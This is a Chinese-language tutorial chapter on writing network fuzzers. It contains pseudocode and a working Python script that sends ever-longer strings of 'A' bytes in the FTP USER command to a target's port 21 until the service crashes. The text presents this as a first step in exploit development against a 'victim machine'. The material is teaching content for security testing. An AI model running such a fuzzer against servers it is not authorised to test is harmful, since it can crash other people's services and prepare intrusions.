 # 模糊测试

## 模糊测试

这一章将会演示教你如何写一个属于自己的模糊测试脚本，当我们进行 exploit 研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据数据很容易引发应用程序崩溃掉。而 Python 却不同，当程序崩溃你与程序断开连接了，Python 脚本会马上建立一个新的连接去继续测试。

下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过 while 循环语句来判断是否成功，即使出现错误也会处理掉:

下面是我们的一个扫描器的伪代码:

```py
 #导入 socket,sys 模块，如果是 web 服务那么还需要导入 httplib,urllib 等模块
 <import modules> 

#设置 ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]

#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50

#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到 50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash" 
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(https,http,mysql,sshd)编写特定模糊测试脚本.下面我们演示一个基于"USER"命令的 ftp 服务器模糊测试脚本:

```py
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep

#声明第一个变量 target 用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建 50 个 A 的字符串 '\x41'
buff = '\x41'*50

# 使用循环来递增至声明 buff 变量的长度 50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的 ftp 端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)

    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER 并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为 50
    buff = buff + '\x41'*50

  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit() 
```

上面这段代码演示了一个基本的模糊测试脚本，但是值得注意的是你的脚本发送'\x41'可能不能让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).还有一个更加高级的模糊测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试更多的数据，并且让你能够攻击成功.最好布置一个练习:大家可以把上面的 ftp 测试换成 http 测试，这里提示:你可能需要使用 httplib/urllib.